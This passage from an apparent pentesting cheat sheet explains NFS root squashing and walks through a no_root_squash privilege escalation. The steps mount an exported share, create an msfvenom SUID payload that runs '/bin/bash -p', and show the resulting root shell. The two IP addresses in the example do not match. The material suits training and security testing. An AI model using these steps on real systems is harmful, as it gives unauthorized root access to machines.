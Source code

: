 Mount an NFS share:

```
mount -o rw,vers=2 <target>:<share> <local_directory>
```

### Root Squashing

NFS uses root squashing by default to prevent privilege escalation, however, this configuration may be disabled. If the remote user is or claims to be root, NFS will “squash” the user and treat them as the “nobody” user, belonging to the “nogroup” group.

### no\_root\_squash

Root squashing is disabled via the no\_root\_squash NFS configuration option. A remote user who identifies as "root" and is included in a writable share configuration can create files on the NFS share as the root user.

#### no\_root\_squash Privilege Escalation

1.  With the no\_root\_squash option, check the contents of /etc/exports for shares:

    ```
    cat /etc/exports
    ...
    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
    ```
2.  Ensure that the NFS share is accessible from a remote location:

    ```
    $ showmount -e 192.168.1.10
    Exports list on 192.168.1.10:
    /tmp
    ```
3.  Mount the /tmp NFS share on your local system by creating a mount point:

    ```
    mkdir /tmp/nfs
    mount -o rw,vers=2 192.168.10.10:/tmp /tmp/nfs
    ```
4.  Create a payload and store it to the mounted share as the root user on your localhost (e.g Kali or Parrot):

    ```
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
5.  Set a SUID bit on the file and make it executable by anyone:

    ```
    chmod +xs /tmp/nfs/shell.elf
    ```
6.  To acquire a root shell on the target machine, run the following command:

    ```
    $ /tmp/shell.elf
    bash-4.1# id
    uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
    ```
